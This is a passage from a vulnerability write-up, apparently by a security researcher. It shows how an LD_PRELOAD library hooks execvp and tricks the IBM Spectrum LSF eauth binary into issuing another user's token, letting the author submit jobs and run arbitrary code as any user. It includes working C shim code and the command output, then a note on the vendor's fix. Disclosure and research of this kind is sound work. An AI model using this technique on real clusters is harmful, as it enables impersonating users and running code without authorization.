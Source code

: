 ```
$ cp $(which eauth) .
$ echo "$(eauth -c mgmt1) ||| $(./eauth -c mgmt1)"
1:85<25>=@5?@2979=<>6;>2;@7=25?7 ||| ><68>8;22;@:3=39=?641:;7:@39:3@=
```

Success!  It seems that *our* token is the leftmost one, and user 1001's token is the rightmost one.  At this point, we are pretty sure we can generate any user's token by changing our shared library's code appropriately. Now, we must decide whether we want to reverse engineer the job submission protocol and submit jobs to LSF directly... or somehow live off the land and be lazy.


### Let's be lazy

Using the same LD_PRELOAD technique, we can override calls to external binaries by shimming exec calls to glibc.  This call eventually calls the kernel's execve systemcall, so we do not want to completely replace it... just change around the location of the `eauth` binary that `bsub` will be calling.  The following code was added to the preload.c library.  It looks for calls to execvp (which is what bsub uses) that target the system-installed eauth binary, and replaces the string with the local copy of eauth. Then, execution is passed back to the glibc verison of execve (which is set up using RTLD_NEXT magic) for everything to finish running.

```
#define _GNU_SOURCE             /* See feature_test_macros(7) */
#include <string.h>
#include <dlfcn.h>
// gcc -o preload.so -fPIC -shared preload.c -ldl

int execvp(char *file, char *argv[]) {
  static int (*func)();
  if( !func ) {
    func = (int (*)()) dlsym(RTLD_NEXT, "execvp");
  }
  if( strcmp("/opt/ibm/spectrumcomputing/lsf/10.1/linux3.10-glibc2.17-ppc64le-csm/etc/eauth", file) == 0 ) {
    file = strcpy( file, "/tmp/bsub/eauth" );
  }
  return func( file, argv );
}
```

### Putting it all together

This technique lets us LD_PRELOAD several functions that fool `eauth` into giving our bsub command the token of another user. Because this token is sent with our submitted job specification, we can run arbitrary code as any user on the system.

![Recorded exploitation of this eauth vulnerability](https://github.com/rmadamson/rmadamson/blob/main/writeups/gifs/eauth.gif)


### The fix

The fix for this is to require some sort of secret or cryptographic material that a user cannot read but that a trusted system process can. This was fixed quite quickly by the vendor, so kudos to them! Information about affected versions can be found by following the links at the beginning of this writeup.

## Acknowledgements

This research used resources of the Oak Ridge Leadership Computing Facility at the Oak Ridge National Laboratory, which is supported by the Office of Science of the U.S. Department of Energy under Contract No. DE-AC05-00OR22725.
